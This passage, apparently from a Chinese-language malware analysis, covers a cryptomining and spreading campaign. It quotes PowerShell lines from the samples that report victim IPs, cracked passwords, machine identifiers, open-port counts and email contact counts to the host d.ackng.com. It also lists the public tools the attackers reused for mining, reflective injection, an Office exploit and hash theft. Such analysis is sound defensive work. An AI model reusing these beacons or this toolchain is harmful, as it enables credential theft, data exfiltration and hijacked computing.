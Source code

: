 *   `http://d.ackng.com/report.json`
*   `http://d.ackng.com/log.json`

```powershell
# if.bin
(New-Object Net.WebClient).DownloadString('http://d.ackng.com/report.json?v='+$VVERSION+'&type=smbhost&ip='+$currip+'&t='+$t)

(New-Object Net.WebClient).DownloadString('http://d.ackng.com/report.json?v='+$VVERSION+'&type=ms&ip='+$currip+'&pass='+$allpass[$n]+'&t='+$t)

## 除基础环境信息外还包含每个已执行模块的状态信息
(New-Object Net.WebClient).DownloadString($down_url+'/log.json?V='+$VVERSION+'&'+$comp_name+'&'+$guid+'&'+$mac+'&r='+$retry+'&pc1='+$smb_portopen[1].count+'&pc2='+$ms_portopen[1].count+'&pc3='+$old_portopen[1].count+'&pc4='+$rdp_portopen[1].count+'&pci='+$ipaddrs_i.count+'&pco='+$ipaddrs_o.count+'&pcb='+$global:ipaddrs_b+'&pcs='+$pcs+'&mi='+($getpasswd -join "^^")+'&wf='+[Int]$wf+'&mf='+[Int]$mf)

# ifmail.bin
## 邮件发送后邮箱联系人相关信息
(New-object net.webclient).downloadstring("http://d.ackng.com/report.json?type=mail&u=$muser&c1="+$contacts.count+"&c2="+$sent_tos.count+"&c3="+$recv_froms.count)
```




### 开源项目的利用

该组织利用了大量开源项目，来构建攻击链，以下是其相关开源项目及对应关系：

https://github.com/xmrig/xmrig-cuda/releases

>   xmrig挖矿程序

https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1

>   将挖矿程序xmrig，反射式注入powershell.exe中

https://github.com/rxwx/CVE-2017-8570

>   OLE攻击文档代码生成的来源
>
>   *注意：scriptlet代码与先前引用的[CVE-2017-8570](https://github.com/rxwx/CVE-2017-8570)的Github页面上显示的代码完全匹配。*
>
>   *字符串“ fjzmpcjvqp”是唯一的，如果该代码不是使用相同的公共POC漏洞利用代码生成的，则不应该如此巧合。*

https://github.com/mardahl/MyScripts-iphase.dk/blob/master/function_executeAsLoggedOnUser.ps1

>   用于if_mail.jsp中在所登录用户上执行

https://github.com/FreeRDP/FreeRDP

>   wfree.exe 的来源

https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1

>   哈希传递攻击模块来源
